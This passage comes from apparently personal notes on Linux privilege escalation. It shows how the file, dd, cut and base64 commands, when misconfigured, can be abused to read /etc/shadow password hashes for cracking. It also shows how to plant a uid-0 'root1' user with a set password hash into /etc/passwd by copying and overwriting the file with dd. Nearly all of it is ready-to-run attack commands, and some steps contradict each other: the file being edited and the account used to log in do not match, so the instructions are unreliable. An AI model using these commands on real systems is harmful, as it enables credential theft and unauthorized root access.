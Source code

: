 
###### 4.5  file , date 
check permissions 
```bash
which file
ls -lha /usr/bin/file
```

Read the /etc/shadow file copy the password hash and crack 

```bash
file -f /etc/shadow
```


###### 4.6 dd
check permissions

copy the /etc/passwd file using dd

```bash
dd if=/etc/passwd of=/tmp/passwd
```

edit the copied file and add new user inforamation

```bash
vim /etc/passwd

#add root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash line into /tmp/passwd
```

Then Replace the edited file with original /etc/passwd

```bash
dd if=/tmp/passwd of=/etc/passwd
```

Then login with new added user 

```bash
su root
```


###### 4.7 cut
check permissions

Then read the /etc/shadow file and then crack the password hash

```bash
cut -f1- -d: /etc/shadow 
```


###### 4.8 base64
check permissions

encode the /etc/shadow and then decode it using base64

```bash
base64 /etc/shadow | base64 --decode 
```
